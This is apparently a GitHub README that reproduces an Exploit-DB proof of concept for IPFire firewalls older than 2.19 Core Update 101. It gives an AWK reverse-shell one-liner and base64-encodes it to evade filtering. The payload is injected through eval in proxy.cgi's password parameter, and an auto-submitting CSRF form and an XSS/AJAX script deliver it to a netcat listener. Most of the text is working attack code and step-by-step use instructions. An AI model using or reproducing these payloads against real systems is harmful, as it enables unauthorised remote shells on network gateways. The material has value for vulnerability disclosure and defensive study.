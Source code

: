 # ipfire_payload
Generate and encoded payload for IPFire reverse-shell

You need to change ip and port in the script.

Proof of Concept 4 :
======================================================================

Finally, with these three previous PoC, it's possible to combine all the mechanisms to gain a full reverse-shell on IPFire.
IPFire does not have netcat nor telnet, socat, python, ruby, php etc ...
The only way to make a reverse-shell is to use Perl or AWK technics. In this PoC, it's the AWK technic that is used :
(From ASafety Reverse-shell cheat-sheet : http://www.asafety.fr/vuln-exploit-poc/pentesting-etablir-un-reverse-shell-en-une-ligne/)

 * The reverse-shell one-line with AWK is :

awk 'BEGIN {s = "/inet/tcp/0/<IP>/<PORT>"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null

 * To bypass IPFire filter, you need to encode this command in base64 (after modify <IP> and <PORT>) :

YXdrICdCRUdJTiB7cyA9ICIvaW5ldC90Y3AvMC88SVA+LzxQT1JUPiI7IHdoaWxlKDQyKSB7IGRveyBwcmludGYgInNoZWxsPiIgfCYgczsgcyB8JiBnZXRsaW5lIGM7IGlmKGMpeyB3aGlsZSAoKGMgfCYgZ2V0bGluZSkgPiAwKSBwcmludCAkMCB8JiBzOyBjbG9zZShjKTsgfSB9IHdoaWxlKGMgIT0gImV4aXQiKSBjbG9zZShzKTsgfX0nIC9kZXYvbnVsbA==

 * Place a \n at each bloc of 64 chars in the base64 version :

YXdrICdCRUdJTiB7cyA9ICIvaW5ldC90Y3AvMC88SVA+LzxQT1JUPiI7IHdoaWx\nlKDQyKSB7IGRveyBwcmludGYgInNoZWxsPiIgfCYgczsgcyB8JiBnZXRsaW5lIG\nM7IGlmKGMpeyB3aGlsZSAoKGMgfCYgZ2V0bGluZSkgPiAwKSBwcmludCAkMCB8J\niBzOyBjbG9zZShjKTsgfSB9IHdoaWxlKGMgIT0gImV4aXQiKSBjbG9zZShzKTsg\nfX0nIC9kZXYvbnVsbA==

 * This payload can be echo'ed and decoded with openssl, on the fly, into IPFire :

echo -e "YXdrICdCRUdJTiB7cyA9ICIvaW5ldC90Y3AvMC88SVA+LzxQT1JUPiI7IHdoaWx\nlKDQyKSB7IGRveyBwcmludGYgInNoZWxsPiIgfCYgczsgcyB8JiBnZXRsaW5lIG\nM7IGlmKGMpeyB3aGlsZSAoKGMgfCYgZ2V0bGluZSkgPiAwKSBwcmludCAkMCB8J\niBzOyBjbG9zZShjKTsgfSB9IHdoaWxlKGMgIT0gImV4aXQiKSBjbG9zZShzKTsg\nfX0nIC9kZXYvbnVsbA==" | openssl enc -a -d

 * To execute this payload, add backticks and eval call :

eval `echo -e "YXdrICdCRUdJTiB7cyA9ICIvaW5ldC90Y3AvMC88SVA+LzxQT1JUPiI7IHdoaWx\nlKDQyKSB7IGRveyBwcmludGYgInNoZWxsPiIgfCYgczsgcyB8JiBnZXRsaW5lIG\nM7IGlmKGMpeyB3aGlsZSAoKGMgfCYgZ2V0bGluZSkgPiAwKSBwcmludCAkMCB8J\niBzOyBjbG9zZShjKTsgfSB9IHdoaWxlKGMgIT0gImV4aXQiKSBjbG9zZShzKTsg\nfX0nIC9kZXYvbnVsbA==" | openssl enc -a -d`

 * Your payload is ready to be used into POST param in proxy.cgi, like the previous PoC :

||eval `echo -e "YXdrICdCRUdJTiB7cyA9ICIvaW5ldC90Y3AvMC88SVA+LzxQT1JUPiI7IHdoaWx\nlKDQyKSB7IGRveyBwcmludGYgInNoZWxsPiIgfCYgczsgcyB8JiBnZXRsaW5lIG\nM7IGlmKGMpeyB3aGlsZSAoKGMgfCYgZ2V0bGluZSkgPiAwKSBwcmludCAkMCB8J\niBzOyBjbG9zZShjKTsgfSB9IHdoaWxlKGMgIT0gImV4aXQiKSBjbG9zZShzKTsg\nfX0nIC9kZXYvbnVsbA==" | openssl enc -a -d`;#

 * Full PoC (IPFire < 2.19 Core Update 101) 
 (if the referer is defined to IPFire URL, and a netcat is listening # nc -l -vv -p 1337) :

<html>
  <body>
    <form name='x' action='https://<IPFire_IP>:444/cgi-bin/proxy.cgi' method='post'>
      <input type='hidden' name='NCSA_PASS' value='||eval `echo -e "YXdrICdCRUdJTiB7cyA9ICIvaW5ldC90Y3AvMC8xOTIuMTY4LjAuMi8xMzM3Ijsg\nd2hpbGUoNDIpIHsgZG97IHByaW50ZiAic2hlbGw+IiB8JiBzOyBzIHwmIGdldGxp\nbmUgYzsgaWYoYyl7IHdoaWxlICgoYyB8JiBnZXRsaW5lKSA+IDApIHByaW50ICQw\nIHwmIHM7IGNsb3NlKGMpOyB9IH0gd2hpbGUoYyAhPSAiZXhpdCIpIGNsb3NlKHMp\nOyB9fScgL2Rldi9udWxs" | openssl enc -a -d`;#' />
      <input type='hidden' name='NCSA_PASS_CONFIRM' value='||eval `echo -e "YXdrICdCRUdJTiB7cyA9ICIvaW5ldC90Y3AvMC8xOTIuMTY4LjAuMi8xMzM3Ijsg\nd2hpbGUoNDIpIHsgZG97IHByaW50ZiAic2hlbGw+IiB8JiBzOyBzIHwmIGdldGxp\nbmUgYzsgaWYoYyl7IHdoaWxlICgoYyB8JiBnZXRsaW5lKSA+IDApIHByaW50ICQw\nIHwmIHM7IGNsb3NlKGMpOyB9IH0gd2hpbGUoYyAhPSAiZXhpdCIpIGNsb3NlKHMp\nOyB9fScgL2Rldi9udWxs" | openssl enc -a -d`;#' />
	  <input type='hidden' name='NCSA_USERNAME' value='yanncam' />
      <input type='hidden' name='ACTION' value='Ajouter' />
    </form>
    <script>document.forms['x'].submit();</script>
  </body>
</html>

Note that none <IP>/<Port> are defined in the previous payload, you need to reproduce these different steps.

 * With the XSS method to bypass CSRF Referer checking, the third party JS script can be :

var headx=document.getElementsByTagName('head')[0];
var jq= document.createElement('script');
jq.type= 'text/javascript';
jq.src= 'http://code.jquery.com/jquery-latest.min.js';
headx.appendChild(jq);
function loadX(){ // AJAX CSRF bypass referer checking !
    $.ajax({
      type: 'POST',
      url: "https://<IPFire_IP>:444/cgi-bin/proxy.cgi",
      contentType: 'application/x-www-form-urlencoded;charset=utf-8',
      dataType: 'text',
      data: 'NCSA_USERNAME=yanncam&ACTION=Ajouter&NCSA_PASS=||eval `echo -e "YXdrICdCRUdJTiB7cyA9ICIvaW5ldC90Y3AvMC8xOTIuMTY4LjEuMzIvMTMzNyI7\nIHdoaWxlKDQyKSB7IGRveyBwcmludGYgInNoZWxsPiIgfCYgczsgcyB8JiBnZXRs\naW5lIGM7IGlmKGMpeyB3aGlsZSAoKGMgfCYgZ2V0bGluZSkgPiAwKSBwcmludCAk\nMCB8JiBzOyBjbG9zZShjKTsgfSB9IHdoaWxlKGMgIT0gImV4aXQiKSBjbG9zZShz\nKTsgfX0nIC9kZXYvbnVsbA==" | openssl enc -a -d`;#&NCSA_PASS_CONFIRM=||eval `echo -e "YXdrICdCRUdJTiB7cyA9ICIvaW5ldC90Y3AvMC8xOTIuMTY4LjEuMzIvMTMzNyI7\nIHdoaWxlKDQyKSB7IGRveyBwcmludGYgInNoZWxsPiIgfCYgczsgcyB8JiBnZXRs\naW5lIGM7IGlmKGMpeyB3aGlsZSAoKGMgfCYgZ2V0bGluZSkgPiAwKSBwcmludCAk\nMCB8JiBzOyBjbG9zZShjKTsgfSB9IHdoaWxlKGMgIT0gImV4aXQiKSBjbG9zZShz\nKTsgfX0nIC9kZXYvbnVsbA==" | openssl enc -a -d`;#'
    });
  }
setTimeout("loadX()",2000);





Source : https://www.exploit-db.com/exploits/39765


